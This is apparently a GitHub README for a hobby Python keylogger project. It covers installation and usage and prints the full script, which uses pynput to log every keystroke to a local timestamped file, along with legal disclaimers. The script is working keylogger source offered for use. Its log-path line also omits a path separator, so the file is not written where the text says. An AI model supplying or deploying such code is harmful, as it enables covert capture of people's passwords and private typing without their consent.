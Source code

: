 Keylogger

Overview

A keylogger is a tool designed to monitor and record keystrokes on a computer or mobile device. This project captures and stores keyboard inputs for analysis and monitoring purposes. It can be used for ethical and authorized applications, such as monitoring personal devices or educational purposes. Misuse of this tool is strictly prohibited and can have serious legal consequences.

Features

Keystroke Recording: Logs all keystrokes entered on the device.

Log File Storage: Stores recorded keystrokes in a log file named keylogger.txt.

Simple Implementation: Uses the pynput library for handling keyboard events.

Prerequisites

Programming Language: Python 3.x

Libraries: Ensure the following libraries are installed:

pynput (for keyboard event handling)

logging (for creating and managing log files)

To install the required Python libraries, use:

pip install pynput

Installation

Clone the repository or copy the keylogger script to your local machine.

Save the script in the desired directory. For example:

C:\Users\reeha\OneDrive\Desktop\Reeha\Cyber projects\Keylogger

Usage

Setup Log Directory:

Ensure the log_dir variable in the script points to the folder where the keylogger script is saved. For example:

log_dir = r"C:\Users\reeha\OneDrive\Desktop\Reeha\Cyber projects\Keylogger"

Run the Script:

Execute the script using Python:

python keylogger.py

Access Logs:

After running the script, the keystrokes will be logged in a file named keylogger.txt in the specified directory.

Stopping the Keylogger:

Stop the script manually by interrupting the Python process (e.g., using Ctrl + C in the terminal).

Script Code

Here is the provided keylogger script for reference:

import pynput
from pynput.keyboard import Key, Listener
import logging

log_dir = r"C:\Users\reeha\OneDrive\Desktop\Reeha\Cyber projects\Keylogger"
logging.basicConfig(filename=(log_dir + "keylogger.txt"), level=logging.DEBUG, format='%(asctime)s: %(message)s')

def on_press(key):
    logging.info(str(key))

with Listener(on_press=on_press) as listener:
    listener.join()

Legal Disclaimer

This keylogger is provided for educational and ethical purposes only. You are responsible for ensuring compliance with all applicable laws and regulations when using this tool. Unauthorized use of keyloggers is illegal and may result in severe penalties, including imprisonment.

License

This project is licensed under the MIT License. See the LICENSE file for more details.

Support

For issues or questions, please contact the project maintainer or open an issue in the repository.


